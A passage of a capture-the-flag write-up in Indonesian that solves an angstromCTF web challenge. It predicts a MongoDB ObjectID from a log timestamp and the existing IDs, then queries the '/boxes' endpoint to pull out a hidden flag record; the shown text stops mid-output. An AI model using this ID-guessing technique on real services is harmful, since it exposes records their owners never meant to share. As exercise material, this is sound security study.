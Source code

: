pada file log.txt terlihat log pada perubahan yang di lakukan oleh developer dengan detail datetimenya
```
Sat Aug 10 2017 10:23:17 GMT-0400 (EDT) - Initial website
Sat Aug 10 2017 14:54:07 GMT-0400 (EDT) - Database integration
Sat Aug 11 2017 14:08:54 GMT-0400 (EDT) - Make some changes to the text
Sat Mar 17 2018 16:24:17 GMT+0000 (UTC) - Add super secret flag to database
```
kemudian pada file `http://web.angstromctf.com:7667/js/init.js` ada endpoint boxes yang di fetch datanya menggunakan ajax

```javascript
ids = ["5aad412be07e1e001cfce6d2","5aad412be07e1e001cfce6d3","5aad412be07e1e001cfce6d4"];
	$(function() {

		$.ajax({
			url: "/boxes?ids="+ids.join(","),
			success: function(data) {
				data = JSON.parse(data)
				$("#box1_title").text(data.boxes[0].data.split("^")[0])
				$("#box1_caption").text(data.boxes[0].data.split("^")[1])
				$("#box2_title").text(data.boxes[1].data.split("^")[0])
				$("#box2_caption").text(data.boxes[1].data.split("^")[1])
				$("#box3_title").text(data.boxes[2].data.split("^")[0])
				$("#box3_caption").text(data.boxes[2].data.split("^")[1])
			}
		})

	});
```

berdasarkan cluenya database menggunakan mongodb ternyata benar karena id yang digunakan sangat mirip dengan yang di gunakan pada mongodb
`https://docs.mongodb.com/manual/reference/method/ObjectId/#ObjectIDs-BSONObjectIDSpecification` pada file log.txt yang mengatakan bahwa flag sudah ditambahkan ke database
berarti kita bisa memunculkan flagnya dengan memasukan id flag pada endpoint boxes. pertama kita harus mengkonstruksi id dari flag yang di simpan

```
ObjectID MongoDB
a 4-byte value representing the seconds since the Unix epoch,
a 3-byte machine identifier,
a 2-byte process id, and
a 3-byte counter, starting with a random value.
```
Object id yang di gunakan mongoDB mempunyai struktur diatas 4-byte
pertama adalah hexadecimal dari unix epoch time, kita bisa dapatkan waktunya
dari file log.txt `Sat Mar 17 2018 16:24:17 GMT+0000 (UTC)` mengkonversi kan ke epoch dan kemudian
kedalam hexadecimal `5aad4131` kemudian machine identifier dan proccess id bisa di ambil dari id yang ada di script init.js `e07e1e` and proccess id `001c`
dan last counter dari id yang ada adalah `fce6d4` jadi kita gunakan lastcounter+1 `fce6d5`
```
ID= [4-Byte Hex representing unix epoch time]+[3-Byte Machine identifier]+[2-Byte Proccess Id]+[3-Byte Counter]
Flag ID = 5aad4131e07e1e001cfce6d5

Get => http://web.angstromctf.com:7667/boxes?ids=5aad412be07e1e001cfce6d2,5aad412be07e1e001cfce6d3,5aad4131e07e1e001cfce6d5
Output => 
{
  boxes: [
  {
      _id: "5aad412be07e1e001cfce6d2",
      data: "Go away.^This website has literally nothing of interest. You might as well leave.",
      __v: 0
  },
```